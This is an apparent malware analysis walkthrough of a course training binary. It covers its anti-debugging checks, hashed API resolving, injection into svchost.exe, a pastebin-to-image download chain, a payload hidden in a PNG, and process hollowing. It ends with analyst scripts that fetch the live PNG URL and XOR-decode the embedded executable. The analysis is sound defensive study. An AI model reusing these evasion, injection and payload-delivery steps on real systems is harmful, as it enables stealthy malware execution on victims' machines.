

I encourage you to follow this writeup along with your analysis
Welcome back, in this part-II of analysing the challenge binary from Z2A: Ch03 (Practical Analysis) we gonna take a thorough look at the second payload extracted from .rsrc section and injected into another process of stage01 (main_bin.exe). So, let’s get started from the main of this stage..
Inside main()

-
first gonna grab the file path of itself using
GetModuleFileNameA(), to get the executable/file name usingsub_404A23akastrtok(identified by flirt in cutter) using a loop -
with filename ie.
main_bin.exe(remember base payload spawned a child process of its own) in hand, it will run another loop to get filename’s length ie.0xC, then call tosub_401660(CRC32hashing), where filename being the first argument and second being the filename length, then compare it to a hard-coded hash0xB925C42D -
if not equal then continue to call
sub_401210(api_hash_resolving) function which takes a module number among three ie.
-
and a hard-coded hash, then return the API function name to immediately call it in the next line
call eax, in this case it resolves the API hash8436F795h(IsDebuggerPresent) to check if this process is being debugged or not, if being debugged then exit the process -
Otherwise, go ahead and call another anti-debugging check function
sub_401000
Inside sub_401000()
- this at first stores a hard-coded set of hash to
xmm0fromxmmword_413CE0variable - then move on to resolve some API function using
sub_401210and store them in registers to call’em later, those APIs are0C1F3B876hie.CreateToolhelp32Snapshot8197004Chie.Process32FirstW0BC6B67BFhie.Process32NextW
- next it calls
CreateToolhelp32Snapshot(call esi) to take snapshot of running process, then if successfully retrieved the handle, then callProcess32FirstWwhere the first arg is handle to snapshot and second arg being aPROCESSENTRY32Wstruct after settingPROCESSENTRY32W->dwSizeto0x22C(556), - then move on to call
Process32FirstWto store the info about first process from snap inPROCESSENTRY32Wstruct, then lower the string ofPROCESSENTRY32W->szExeName(where every character is 2 bytes(akaUTF-16) means if string isx32dbg.exethen its hex will be78 00 33 00 32 00 64 00 62 00 67 00 2e 00 65 00 78 00 65 00) also look at the dump forx32dbg.exestring

- contrary to previous
sub_401600call where string chars are only 1byte long were passed as argument meansx32dgb.exe(78 33 32 64 62 67 2e 65 78 65) (pointing this out ‘cause this makes difference in their hash calculated) , then calculate crc32hash to compare the hash the against hardcoded hash set of 4 stored inxmm0register earlier ie.7c6ffe70(processhacker.exe)47742a22(wireshark.exe)d2f05b7d(x32dbg.exe)659b537e(x64dbg.exe)
- if not matched then call
Process32NextWto goto the next process in snapshot, and repeat the comparision until any of’em matches, if none of’em matches then exit the function with return value of0 - Otherwise, if any of running processes calculated hash matches to any of 4, then exit the function with return value of
1
If last function returned 0(representing not being debugged), then move on to call sub_401D50, which gonna resolve some more API function and store them in for later use, with that done this calls another function sub_401CA0
Inside sub_401CA0()

-
first set some memory of
0x40bytes for structSTARTUPINFOA -
then move on to decrypt some encrypted data stored in
xmmword_413C5Candxmmword_413C6Cie.7C6D1DBD1FEF1D5DDC6CCCBC5FEF891Eand7CAD7CC86D1DDCAC1C4D1DEF0919FCfollowed by a decryption loop containing shifting and xor to get stringC:\Windows\System32\svchost.exe
-
then create the process
svchost.exeusingCreateProcessA(which was resolved in earlier function) in suspended state and returns itPROCESS_INFORMATIONstruct -
moving ahead in
main()(see image below), we see a call toGetModuleHandleWwith0as argument means the module address of its own(stage02) which will be0x400000 -
then allocate some memory space of size
0x18000(SizeOfImageof stage02) usingVirtualAllocto copy the stage02 to allocated memory usingcall sub_4037B0 -
now this allocates memory of size
0x18000in suspendedsvchost.exeusingVirtualAllocEx

- then using some loop, gonna perform base relocation(check this out for more on Base Relocation table) for the copied executable based on address returned from
VirtualAlloccall, tldr; this performs base relocation which needs to done when PE file is loaded to other address than image base address, in this case this is relocating the copied stage02 binary(present inlpBuffer = lpMem) to adjust the base relocation table with base address equal to address returned fromVirtualAlloc

- after relocation, call to a
WriteProcessMemoryto write the relocated stage02 in the suspendedsvchost.exe, - then create a remote thread in
svchost.exewithlpStartAddressset tosub_401DC0relocated to new base address, withdwCreationFlagsset to0means execute this routine immediately after creating the thread,
TIP
How to break into
sub_401DCO?
- Now, in order to analyse this function in
x32dbg, again attach thesvchost.exeprocess before callingCreateRemoteThread- follow the subroutine address(at offset
0x1DC0) in disassembler and place a breakpoint there- then after calling
CreateRemoteThreadin parent process, jump onto thesvchost.exeprocess and resume the debugger and you’ll break on this function, if all goes good.
We’ve covered enough for a quick break, see you back in a bit
Inside sub_401DC0()
Welcome back, i saw there you didn’t had a break, nvm:) let’s carry on..
Now, let’s examine this function, as this function is executed as a new thread within svchost.exe process

- first gonna resolve 4 API functions related to Internet, then decrypt some encrypted data at
xmmword_41C7C,xmmword_413C8C,0xEAusing rotate left by4, then xor by0xC5to get this URL stringhttps://pastebin.com/raw/mLem9DGk:

- now pass the decrypted URL as only argument to
sub_401290()ie.getDataFromUrlwhich gonna reach out to URL and return the data received ie. another URLhttps://i.ibb.co/KsfqHym/PNG-02-Copy.pngof an image - again pass the data received (another URL) to
sub_4013A0()as only argument
Inside sub_4013A0()
- get data ie. a PNG file from URL passed to this function using
sub_401290()ie.getDataFromUrl, - then decrypt the data at
qword_413CA4,qword_413CACby rotating left by4then xor by1Fto get string\output.jpg(keep endians in mind) and convert this string toUTF-16(wide character) by callingMultiByteToWideChar - resolve 4 more API function using
api_hash_resolving_401210ie.GetTempPathW,CreateDirectoryW,CreateFileW,WriteFile - grab temporary directory path using
GetTempPathW, to create a folder namedcruloaderusingCreateDirectoryW, within this folder create a file namedoutput.jpgand write the PNG file data received earlier usingWriteFile, - again decrypt data stored at
word_413CCC,qword_413CC4ie.8E FF EF BF 5F 6F FE 8E 9Fby rotating them left by4to xor them by0x9Ato get stringredaolurc - Now using loop it finds the offset of data after string
redaolurc(at offset0x41107) in PNG file ie.0x41110, then get the size of this data ie.9384bytes(0x24A8)followed by another loop to decrypt the data ie. xor by0x61which reveals another executable say stage03 - again call
sub_401D50to resolve some api function related to process creation and injection, then spawn anothersvchost.exeprocess using same call tosub_401CA0as earlier, then gonna callsub_401750
Inside sub_401750()
-
this functions starts off by capturing the thread
Contextof newly spawned childsvchost.exeprocess usingGetThreadContext(), if function returns success then proceed otherwise return 1 -
on success, read the image base address of suspended
svchost.exefromPEB->ImageBaseAddressusingReadProcessMemory() -
on success, will compare the image base address of stage03 and suspended
svchost.exe, if equal thenNtUnmapViewOfSection()is called to unmap view at childsvchostimage base address, otherwise if base addresses are not equal -
then move on to allocate memory of size
0x6000(size of image of stage03) in childsvchos.exeusingVitualAllocExwherelpBaseAddressset to0x400000(image base of stage03), if allocation not successfull, then retry memory allocation at any place (lpBaseAddress = 0), if this fails again then exit -
elsewsie, move on to replace
PEB->ImageBaseAddressof childsvchost.exewith allocated memory insvchost.exeusingWriteProcessMemory(), -
then modify the stage-03 payload by changing value of windows subsystem(
IMAGE_NT_HEADERS->OptionalHeader.Subsytem) from3(IMAGE_SUBSYSTEM_WINDOWS_CUI)to2(IMAGE_SUBSYSTEM_WINDOWS_GUI) -
then check if previously allocated memory in child
svchost.exeis equal to image base address of stage03 payload, if not equal then relocation is done resp. to address allocated, otherwise if they’re equal -
then make a jump to set the thread
Context->eax(of childsvchost) to the entry point(at offset0x126Fof stage-03) then callSetThreadContextto set modified thread context in child svchost -
now using
WriteProcessMemory,VirtualProtectExgonna map the headers, sections with their protections of stage-03 payload to the allocated memory in childsvchost.exe, like this

- then finally call
ResumeThread()to continue execution of childsvchost.exefrom stage03’s entry point
TL;DR
Now that we know that this stage injects itself in a created
svchostprocess to executesub_401DC0, which reach out to internet to get an url to get a png file which contains an executable(stage03) file which is then again injected to a createdsvchostprocess, next we’ll see what stage03 is capable of.
Stage03 : Inside main()

All this stage does is display a message box and exit.

Hope you had fun reading this walkthrough and I’ll see you in another post.
Till then have a nice time :)
API hash resolve
# api_name_resolve.py
# Author: ME :D
import pefile
import zlib
def api_hash_resolve(dllToLoad, hashToResolve):
pe = pefile.PE(f'C:\Windows\SysWOW64\{dllToLoad}')
for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:
if exp.name is not None:
if zlib.crc32(exp.name) == int(hashToResolve, 16):
print(exp.name.decode())
def main():
dllList = ["kernel32.dll", "ntdll.dll", "wininet.dll"]
print(f"DLLs Available: \n0: {dllList[0]}\n1: {dllList[1]}\n2: {dllList[2]}")
dllNumber = int(input("Choose DLL number: "))
hashToResolve = input("Hash(hex) to Resolve: ")
api_hash_resolve(dllList[dllNumber], hashToResolve)
if "__main__" == __name__:
main()Stage03 Extraction/Decryption from PNG file data
# stage03_extraction.py
# Author: ME :D
import urllib3
http = urllib3.PoolManager()
res = http.request('GET', 'https://i.ibb.co/KsfqHym/PNG-02-Copy.png')
xored_bytes_for_executable = bytearray()
for i in res.data[0x41110:]:
xored_bytes_for_executable.append(i^0x61)
with open('stage03.bin', 'wb') as f:
f.write(xored_bytes_for_executable)